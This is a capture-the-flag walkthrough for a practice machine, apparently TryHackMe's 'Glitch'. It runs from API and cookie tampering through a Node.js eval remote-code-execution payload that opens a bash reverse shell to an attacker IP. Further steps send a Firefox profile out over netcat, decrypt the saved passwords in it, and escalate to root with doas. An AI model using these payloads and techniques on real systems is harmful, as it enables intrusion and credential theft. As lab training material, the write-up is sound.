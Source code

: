 1) Wait about 5 minutes until the `error 502` disappears and the page loads.

2) Open the `development tools` and open the  `tag script`.

3) From the code below:

```

      function getAccess () {
        fetch ('/ api / ac ** ss')          <---------------------
          .then ((response) => response.json ())
          .then ((response) => {
            console.log (response);
          });
      }
    
```

We have endpoint to `first api`

4) We attach to the link `/api/ac ** ss` and the encoded  `token` appears:

```dGhpc **** 3RfcmVhbA ==```

5) You will immediately notice that the sequence looks familiar it is `base64`.

Go to, for example, this page: [base64_decode](base64decode.org/)

We enter  `encoded token` and get `decoded`:

```this_is _ * _ **```

6) Go back to the `main page` and go to the `development tools`.

We go to the `Cookies` tab and see the `token` set to the value of `value`, double click on it and change the value to `decoded token`.

After all this `refresh the page` (f5)

7) Another page appears, go to the `debugger` tab.

On the left panel, open the `js` tab and click on the `script.js` file

```
  const container = document.getElementById ('items');
  await fetch ('/api/**')                               <------------------------
    .then ((response) => response.json ())
    .then ((response) => {
      response.sins.forEach ((element) => {

```

From the above code we can see another endpoint to the `next API`.

8) We append it to our `link` and intercept the `request` with e.g. the `burp` program in my example.

9) We do `send to reapeater` and we do `send`.

If unsuccessful `remove` from` Header request`:

```
    If-None-Match: W / "a9-0aR6bAfiK / DB + ***"

```

And everything should be working by now.

10) We check what queries the API `allows`.

We change `GET` to` OPTIONS`

```OPTIONS /api/i * HTTP / 1.1```

11) We see that we can do the following in this endpoint:

```GET, HEAD, POST```

12) We check possible parameters:

```wfuzz -c -z file, /usr/share/wordlists/common.txt -X POST --hh 45 -u http://<IP>/api/i*\?FUZZ\=test```

We see an eval function that should give us a lot to think about:

```
    ReferenceError: test is not defined
    at eval (eval at router.post (/var/web/routes/api.js:25:60
```

13) We are interested in `POST`. We are looking for `NodeJs RCE eval` on the internet.

I used this site: [site](https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6)

There I have noticed the `exploit` it will use.

14) We change in `burp` parameter to `post` and add `?cmd=` and attach `exploit`:

```
    POST /api/i*?cmd=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261"') HTTP / 1.1
```

In the terminal, enter `nc -lvpn <PORT>`

And click `send`. We should have accessed the user `user`.

15) We go to the `/home/user` directory and see the `first flag`.

16) After cat the flag (`cat <file>`) we show all the files in the directory `ls -la`.

We may notice the hidden `.firefox` directory. We enter it `cd .firefox`.

We see what looks like the session directory `b5w4643p.default-release`.

17) We download to our machine: [Firefox_decrypt](https://github.com/unode/firefox_decrypt)

We pack sessions from the server `tar -cf archive.tar ./b*`.

Using [netcat](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/) we send the file to our computer.

On our computer, type: `nc -l -p 1234> ./archive.tar`.

And on the server: `nc -w 3 <IP> 1234 < ./archive.tar`.

18) Then with `firefox_decrypt` we decrypt the password to the user `v0id`:

```./firefox_decrypt.py ./( PATH TO DIRECTORY) b5w4643p.default-release```


After a while it appears to us:

```

    Website: https: //glitch.thm
    Username: 'v0id'
    Password: 'love_ *'


```

19) We switch to user `v0id` with `su v0id`.

If you see: `su: must be run from a terminal`. Enter: `python3 -c 'import pty; pty.spawn("/bin/bash")'`. And then we try again.

20) With the command `doas` we increase our privileges to the user `root`.

```doas -u root  /bin/bash```

21) We go to the `/root` directory and get the `last flag`.
